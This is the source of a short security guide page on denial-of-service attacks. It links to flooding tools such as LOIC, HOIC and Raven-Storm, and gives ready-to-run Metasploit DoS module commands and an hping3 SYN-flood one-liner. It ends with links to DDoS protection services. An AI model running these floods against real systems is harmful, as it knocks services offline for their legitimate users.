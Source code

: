 ```yaml
---
title: 🚫 Denial of Service
description: Denial of Service (DoS) attacks are a type of attack that aims to make a system or service unavailable to its intended users.
slug: guide/dos
head:
  - tag: title
    content: Denial of Service
---
```




Denial of Service (DoS) attacks are a type of attack that aims to make a system or service unavailable to its intended users.

This is typically achieved by overwhelming the target with a flood of illegitimate requests, causing it to slow down or crash.

When multiple systems are used to perform a DoS attack, it is usually referred to as a Distributed Denial of Service (DDoS) attack.

<LinkCard
  title="raven-storm"
  description="raven-storm is a tool for performing DoS attacks on web applications."
  href="https://github.com/Tmpertor/Raven-Storm"
  target="_blank"
/>

<LinkCard
  title="HOIC"
  description="HOIC (High Orbit Ion Cannon) is a network stress testing tool that can be used to perform DoS attacks."
  href="https://sourceforge.net/projects/high-orbit-ion-cannon/"
  target="_blank"
/>

<LinkCard
  title="LOIC"
  description="LOIC (Low Orbit Ion Cannon) is a network stress testing tool that can be used to perform DoS attacks."
  href="https://sourceforge.net/projects/loic/"
  target="_blank"
/>

<Aside type="tip">
  HOIC was developed as an advanced version of LOIC and is capable of performing
  more sophisticated attacks.
</Aside>

## Metasploit

Metasploit has several modules that can be used to perform DoS attacks.

```sh
msfconsole
use auxiliary/dos/tcp/synflood
use auxiliary/dos/http/slowloris
```

## hping3

hping3 is a command-line tool that can be used to generate TCP/IP packets and perform various network attacks, including DoS attacks.

```sh
hping3 -S TARGET -p PORT --flood
```

<LinkCard
  title="hping3"
  href="https://www.kali.org/tools/hping3/"
  target="_blank"
/>

## DoS Detection

There are several tools and techniques that can be used to detect DoS attacks.

<LinkCard
  title="Anti-DDoS Guardian"
  href="https://www.anti-ddos.net/"
  target="_blank"
/>

<LinkCard
  title="DOSarrest's DDOS Protection service"
  description="Now part of Link11"
  href="https://www.dosarrest.com/"
  target="_blank"
/>

<LinkCard title="Link11" href="https://www.link11.com/" target="_blank" />

<LinkCard
  title="DDoS-Guard"
  href="https://www.ddos-guard.net/"
  target="_blank"
/>

<LinkCard
  title="Cloudflare"
  href="https://www.cloudflare.com/"
  target="_blank"
/>
